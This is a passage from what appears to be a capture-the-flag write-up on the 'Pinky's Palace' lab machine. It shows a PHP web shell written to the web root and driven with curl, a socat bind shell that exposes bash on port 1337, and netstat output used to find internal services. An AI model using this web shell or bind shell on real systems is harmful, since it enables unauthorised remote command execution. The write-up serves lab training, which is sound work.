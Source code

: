 ```bash
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }  
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!  
--------------------------------------------------------------------------------  
[i] Fake shell: curl 'http://192.168.0.74:8000/s.php' -d 'c=hostname'  
pinkys-palace>> id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```  

www-data  
--------- 
After some basic enumeration, I tried to grab some files from my local box using the shell.  For some reason however, I couldn't get a connection.  A quick gander at the firewall rules reveals that outbound connections are blocked.
```bash  
pinkys-palace>> cat /etc/iptables/rules.v4  
# Generated by iptables-save v1.6.0 on Tue May 15 02:46:06 2018  
*filter  
:INPUT ACCEPT [714:49326]  
:FORWARD ACCEPT [0:0]  
:OUTPUT ACCEPT [442:57902]  
-A OUTPUT -o eth0 -p tcp -m tcp --tcp-flags FIN,SYN,RST,PSH,ACK,URG SYN -m state --state NEW -j DROP  
COMMIT  
# Completed on Tue May 15 02:46:06 2018  
```  

This doesn't exclude incoming connections however, so we can just create a bind shell.  You'll see netcat is surprisingly missing, but socat's installed so no worries!  The following command creates a bind shell on port 1337:
```bash  
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane  
```  
  
We then connect to it with:
```bash  
root@kali:~/panther# socat FILE:`tty`,raw,echo=0 TCP:192.168.0.74:1337  
www-data@pinkys-palace:~/html$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)  
```  

Some more enumeration reveals that the internal ports are exposing more than we saw externally.  Notably, port 80 and port 65334.

```bash  
www-data@pinkys-palace:~/html$ netstat -tulpn  
(Not all processes could be identified, non-owned process info  
will not be shown, you would have to be root to see it all.)  
Active Internet connections (only servers)  
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name  
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -  
tcp 0 0 127.0.0.1:80 0.0.0.0:* LISTEN -  
tcp 0 0 0.0.0.0:5555 0.0.0.0:* LISTEN -  
tcp 0 0 127.0.0.1:65334 0.0.0.0:* LISTEN -  
tcp 0 0 0.0.0.0:1337 0.0.0.0:* LISTEN 854/socat  
tcp 0 0 0.0.0.0:8000 0.0.0.0:* LISTEN 520/nginx: worker p  
tcp6 0 0 :::80 :::* LISTEN 520/nginx: worker p  
tcp6 0 0 :::5555 :::* LISTEN -  
tcp6 0 0 :::21 :::* LISTEN -  
udp 0 0 0.0.0.0:68 0.0.0.0:* -  
```  
This can't be an nginx process, as we control that service, and a quick check of the config excludes it also.  However, it looks like apache2 is installed and running.  We'll dump the `000-default.conf` to see what's exposed.
